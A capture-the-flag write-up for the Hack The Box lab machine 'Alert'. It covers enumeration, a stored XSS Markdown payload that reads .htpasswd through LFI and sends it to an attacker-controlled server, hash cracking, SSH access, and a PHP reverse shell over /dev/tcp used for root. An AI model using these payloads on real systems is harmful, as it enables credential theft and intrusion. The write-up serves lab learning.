


# Alert

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">Stored XSS</span>
<span class="wu-tag">File read</span>
<span class="wu-tag">PHP</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    The first useful boundary was the administrator's browser. The Markdown preview let me cross it, read a password file, and turn that credential into SSH access. A separate local PHP service provided the final step.

## Attack path

1. Send a scripted Markdown preview through the contact form and read the statistics password file.
2. Crack Albert's Apache hash and reuse the password over SSH.
3. Forward the local monitoring service and execute PHP from its writable configuration directory.

[HTB machine](https://app.hackthebox.com/machines/636) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/636) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.11.44

set ports (nmap -p- --min-rate=1000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# TCP Port Scan
sudo nmap -p$ports -sC -sV $IP -oG scan_tcp

# UDP Port Scan (intentionally does not use $port)
sudo nmap -sS -sU -p- $IP
```

## Nmap Results
TCP Ports:

* 80
* 22

UDP Ports:

* 167

Let's first review the web portal, TCP port 80. We are redirected to `alert.htb`, so this needs to be added to `/etc/hosts`. 

From initial enumeration, we can see that the site has several functionalities, including uploading a markdown, `.md` file, and several other pages - including Contact Us where we can send an email but this doesn't appear to do anything.

After some time researching `.md` reverse shells, I did not get anywhere. 

Pivoting back to enumeration, I used the following to fuzz the domain:

Directories:
```text
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/big.txt --hc 404 "alert.htb/FUZZ"
```

Subdomains:
```text
ffuf -u http://alert.htb -H "Host: FUZZ.alert.htb" -w /usr/share/seclists/Discovery/Web-Content/big.txt --fc 301
```

We can see the subdomain `statistics` was found and no interesting directories were returned.

After adding `statistics.alert.htb` to our hosts file and attempting to visit the site, we are prompted with an HTTP authentication prompt. Default creds did not seem to work, so this will be put to the side for now.

Back to enumerating the site on port 80, after some time we can see that if we upload a markdown file and include a `<script>` tag, when we go to preview the code, this is not shown - meaning there is potential for XSS (hence the machine name **Alert**). 

To begin, create the following markdown file:
```html
<script>
(async () => {
  try {
    const res = await fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd");
    const fileContent = await res.text();
    await fetch(`http://10.10.14.10:8888/?file_content=${encodeURIComponent(fileContent)}`);
  } catch (error) {
    console.error("An error occurred:", error);
  }
})();
</script>
```

Notice that we're performing LFI vulnerability, in particular, we're pulling the `.htpasswd` file since we know this is an Apache server. 
[Reference](https://dev.to/quangthien27/understanding-htpasswd-a-comprehensive-guide-4c31)

Next, we're going to forward this data to our own web server (using Python).
```bash
python -m http.server 8888
```

Next, upload `file.md` onto the markdown upload home page. This should give a shareable link for the markdown, for example:
```text
http://alert.htb/visualizer.php?link_share=677d762db3a406.19366690.md
```

Finally, copy this shareable link and paste it into the comments in the Contact Us page (use any email) and notice what we receive back in our Python web server:

<figure class="wu-evidence" markdown>

<figcaption>The callback server receives the administrator-triggered request.</figcaption>
</figure>

Copy/paste the following into a URL Decoder:
```text
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%%0A
```

To find the following:
`albert:$apr1$bMoRBJOg%`

The saved hash excerpt above is truncated; it is not a complete crackable hash. I put the complete captured value into a file during the lab. We can use the Hashcat example page to see this is an Apache hash, `1600`. Use the following to crack the hash:
```bash
hashcat -m 1600 passwd /usr/share/wordlists/rockyou.txt 
```

`albert:manchesterunited`

Now we can SSH onto our target as `albert` and gain our first user flag!

## Privilege escalation
Initially, I thought to try and use the credentials to gain access to `statistics.alert.htb`. This led me to a web page that showed donation amounts. I did not find any interesting directories on this URL.

Next, I went back to enumerate the target more as our user `albert`. I uploaded Linpeas from the kali VM onto the target and noticed the following:

<figure class="wu-evidence" markdown>

<figcaption>Local enumeration identifies the monitoring service on port 8080.</figcaption>
</figure>

Port 8080 is opened.

Note: Before continuing, either turn off Burp proxy or change the port.

Let's re-open our SSH connection and forward port 8080 to our localhost:
```bash
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

Now we can visit `http://localhost:8080` and see an application for monitoring the availability of the prior 2 site's we discovered.

Digging around more on the target, we can find `website-monitor` located at `/opt/website-monitor`.

Ownership alone does not make a directory exploitable. The useful combination was the writable `config` directory and the privileged PHP service that served it.

Additionally notice the `config` directory - which we can write to! Since we know the application is PHP, let's create a shell and attempt to login as root:
```php
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.10/1337 0>&1'"); ?>
```

Save the `shell.php` file, then open a NC listener on the appropriate port.

Next, we simply need to visit `http://localhost:8080/config/shell.php` and obtain the root flag from our NC listener!

## Lessons learned

The writable directory only became an escalation path because privileged PHP execution reached it. Check the service identity and the files it loads, rather than treating root ownership alone as a vulnerability.
